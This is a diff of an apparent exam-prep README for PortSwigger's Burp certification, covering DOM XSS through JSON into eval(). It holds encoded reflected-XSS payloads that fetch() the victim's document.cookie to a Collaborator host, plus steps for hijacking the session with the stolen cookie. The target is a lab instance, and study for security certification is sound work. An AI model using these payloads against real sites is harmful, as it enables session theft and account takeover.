

Burp Suite Certified Practitioner Exam TIPS
Burp Suite Certified Practitioner Exam TIPS

diff --git a/README.md b/README.md
@@ -578,11 +578,11 @@ ${alert(document.cookie)}
 
 ### XSS via JSON into EVAL  
 
->This application is performing search function and the **DOM Invader** identify the sink in an ` eval()` function. The search results are placed into JSON content type.  
+>This [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html) is performing search function and the **DOM Invader** ***identify*** the sink in an ` eval() ` function. The search results are placed into JSON content type.  
 
 ![Dom Invader EVAL identify](images/dom-invader-eval-identify.png)  
 
->To test escape of the `JSON` data and inject test payload `"-prompt(321)-"` in to JSON content.  
+>Test escape out of the `JSON` data and inject test payload `"-prompt(321)-"` into the JSON content.  
 
 ![json-injection-escape.png](images/json-injection-escape.png)  
 
@@ -626,28 +626,29 @@ ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20v
   + setImmediate("code")
   + Function("code")()
   
->This image shows Burp Collaborator receiving the victim cookie value.  
+>This image shows Burp Collaborator receiving the my cookie value as proof of concept before setting up payload to `Deliver exploit to victim`.  
 
 ![Burp collaborator receiving request with base64 cookie value from our POC.](images/xss2.png)  
 
->Hosting the **IFRAME** with eval() and fetch() payload on exploit server, respectively base64 encoded and URL encoded.  
+>[URL Encode](https://www.urlencoder.org/) all characters in this payload and use as the value of the `searchterm` parameter.  
 
 ```html
-<iframe src="https://TARGET.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
-```
[1 lines of base64/hex data omitted]
+```  
+
+>Hosting the `IFRAME` on exploit server, give a **error** message refused to connect to target. Instead host the payload on exploit server between `<script>` tags.  
+
+```html
+<script>
+location = "https://0afa002e04d93d98c0ea08df00b90092.web-security-academy.net/?SearchTerm=%22%2d%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%59%47%68%30%64%48%42%7a%4f%69%38%76%4e%48%6f%30%59%57%64%6c%4d%48%6c%77%59%6a%56%33%62%32%49%35%63%44%59%78%65%58%42%77%64%54%45%7a%64%6e%55%78%62%48%42%69%5a%44%41%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%70%7a%62%32%35%6a%50%57%41%67%4b%79%42%33%61%57%35%6b%62%33%64%62%49%6d%52%76%59%33%56%74%5a%57%35%30%49%6c%31%62%49%6d%4e%76%62%32%74%70%5a%53%4a%64%4b%51%3d%3d%22%29%29%2d%22"
+</script>
+```  
+
 ![(Deliver reflected xss to steal victim cookie.](images/xss1.png)  
 
->Decode above payload from URL encoding, is the following:  
+>**NOTE:** `Deliver exploit to victim` few times if the active user do not send HTTP request to collaborator. Replace the current cookie value with the stolen cookie to impersonate the active user.  
 
-```html
[1 lines of base64/hex data omitted]
-```  
-
->Decode part of payload above that is base64 encoded to the following:  
-
-```html
-https://TARGET.net/?SearchTerm="+eval(atob("fetch("https://COLLABORATOR.NET/?c=" + btoa(document['cookie']))"))}//  
-```  
+[PortSwigger Practice Exam - Stage 1 - Foothold](https://portswigger.net/web-security/certification/takepracticeexam/index.html)  
   
 ### Stored XSS
 
